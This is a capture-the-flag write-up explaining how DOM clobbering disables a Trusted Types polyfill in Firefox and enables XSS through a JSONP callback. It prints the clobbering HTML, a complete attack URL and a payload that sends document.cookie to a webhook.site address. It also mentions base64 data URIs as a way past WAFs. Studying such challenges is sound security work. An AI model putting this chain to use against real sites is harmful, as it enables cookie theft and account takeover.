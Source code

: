 To quickly summarize trusted types, it restricts certain actions on the DOM. In this case, when some HTML is created, it replaces <> and when a new script is created the src url is passed through the createScriptURL function.

Now let’s think about how we can bypass this. Our goal should be to be able to create a script with a src to the JSONP endpoint and be able to control the actual response. The first problem we face is trusted types. No matter what we do, be it HTML injection or manipulating the javascript, we will not be able to call the JSONP endpoint with ?callback=ourpayload because of trusted types. How can we bypass this? The important note here is that the admin is running Firefox. As of writing this blog, Firefox has not implemented trusted types by default, hence the need for the polyfill. What this also means is that the trustedTypes object referenced by the javascript is not a native call.

The first idea that came to mind was if we can abuse the fact that it is in a try catch. If we could somehow make it fail and not raise an error, we would be able to create script tags with the ?callback parameter. In order to do this, we can use DOM clobbering. If the following HTML is injected into the page, trustedTypes will look at the HTML element and not the trustedTypes from the javascript.

`<form id=trustedTypes></form>`

However, this is not enough because the catch will still raise an Error and we still won’t be able to call the JSONP endpoint. However, if we can make !trustedTypes.defaultPolicy to be true then the Error will not be raised. This means we can simply make our DOM clobber to be the following and we will effectively disable trusted types in Firefox.

`<form id=trustedTypes><output id=defaultPolicy>`

Finally, we can DOM clobber callback and that will be passed to jsonp('/api.php', window.callback); which will let us create a script element with ?callback=ourpayload. In order to do this 1 level clobber, I used the following format which will get rid of the automatic https:// appended to the payload.

`<a id=callback href=a:alert(1);>`

This is where another really neat trick comes in. The PHP code limits our callback payload to 20 characters and it is not nearly enough to execute the javascript needed to exfil the flag. The following is from the official writeup here and allows executing payloads longer than 20 characters. What we can do is instead of putting our payload in the callback, we create a script tag using the data: uri using the jsonp() function.

The payload passed to the callback parameter would look like this. `<a href="a:jsonp(x)" id="callback"></a>`

And using our HTML injection, we can add another element like this. `<a href="data:text/plain;base64,(Base64 encoded script)" id="x"></a>`

Our final URL sent to the admin looks like the following.

`http://web.ctf.zer0pts.com:8003/?theme="><a id=callback href=a:jsonp(x)><form id=trustedTypes><output id=defaultPolicy><a href="data:text/plain;base64,(b64payload)" id="x"></a>`

The content of the payload would be the following base64 encoded and we would get the cookie to our webhook.

`document.location='https://webhook.site/your_id?'+document.cookie`

Overall this was a very neat challenge in bypassing trusted types with DOM clobbering. The use of data decoding base64 inline is a cool idea and something to keep in mind for bypassing WAFs in the future.
